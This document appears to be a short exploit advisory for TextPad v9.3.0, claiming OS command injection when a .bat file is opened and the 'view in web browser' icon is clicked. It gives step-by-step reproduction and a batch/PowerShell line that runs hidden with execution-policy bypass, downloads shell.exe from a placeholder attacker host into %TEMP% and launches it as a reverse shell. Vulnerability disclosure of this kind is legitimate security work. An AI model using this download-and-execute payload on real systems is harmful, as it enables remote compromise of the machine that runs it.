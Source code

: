 ```yaml
---
layout: post
title: TextPad v9.3.0 - OS Command Injection
date: 2023-09-17
category: exploit
---
```


# Exploit Title: TextPad v9.3.0 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.09.2023
# Vendor Homepage: https://www.textpad.com
# Software Link: https://www.textpad.com/file?path=v9/setupv9.exe
# Tested Version: v9.3.0 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open TextPad.
2. Create a `.bat` file containing your reverse shell command.
3. In TextPad, go to the **File** menu and click on **Open...**.
4. Select the `.bat` file you created.
5. Click on the **globe icon** (view in web browser).
6. Your reverse shell should now be active, connecting back to your listener.

### Example of Reverse Shell Command in .bat

To set up a reverse shell in a `.bat` file, you can use the following command:

```batch
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
